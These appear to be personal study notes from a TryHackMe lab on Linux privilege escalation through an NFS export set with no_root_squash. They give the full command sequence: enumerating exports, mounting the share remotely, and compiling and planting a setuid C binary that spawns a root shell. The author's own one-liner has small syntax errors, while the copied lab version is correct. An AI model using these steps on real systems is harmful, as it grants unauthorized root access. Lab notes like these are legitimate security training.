

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>NFS</title>
</head><body>Exploiting NFS 
 
root squash is essentailly saying the action will be performed as root. 
no root squash will not be performed as root 
 
 
Identfy with  
 
<b>cat /etc/exports</b> 
 
looking for folder that define 'no_root_squash' 
 
This means it can be mounted 
 
 
 
 
can mount from attack... remotely 
 
review by 
 
<b>showmount -e &lt;victim ip&gt;</b> 
 
Will list mountable folders 
 
on attacker, make a new tmp dir to mount to 
 
<b>mkdir /tmp/mountme</b> 
 
 
mount with 
 
<b>syntax &gt; mount -o rw,vers=2 &lt;victim ip&gt;:/&lt;dir name&gt; /tmp/mountme</b> 
 
 
 
From here folder is mounted.. create a malicious payload. put in shared folder... and exploit from victim machine 
 
use 1 liner 
 
<b>echo 'int main() { setgid(0); setuid(0); system(&quot;/bin/bash); return 0; } &gt; tmp/mountme/exploit.c</b> 
 
check it with cat /tmp/mountme/exploit.c 
 
complile it 
 
<b>gcc /tmp/mountme/exploit.c -o /tmp/mountme/exploit</b> 
 
<b>chmod +s /tmp/mountme/exploit</b> 
 
 
now its set move back to victim. 
 
cd to tmp (the share folder) 
 
run the exploit 
 
<b>./exploit</b> 
 
 
 
notes from THM 
 
Detection 
 
Linux VM 
 
1. In command line type: cat /etc/exports 
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export. 
 
Exploitation 
 
Attacker VM 
 
1. Open command prompt and type: showmount -e MACHINE_IP 
2. In command prompt type: mkdir /tmp/1 
3. In command prompt type: mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1 
In command prompt type: 
echo 'int main() { setgid(0); setuid(0); system(&quot;/bin/bash&quot;); return 0; }' &gt; /tmp/1/x.c 
4. In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x 
5. In command prompt type: chmod +s /tmp/1/x 
 
Linux VM 
 
1. In command prompt type: /tmp/x 
2. In command prompt type: id</body></html>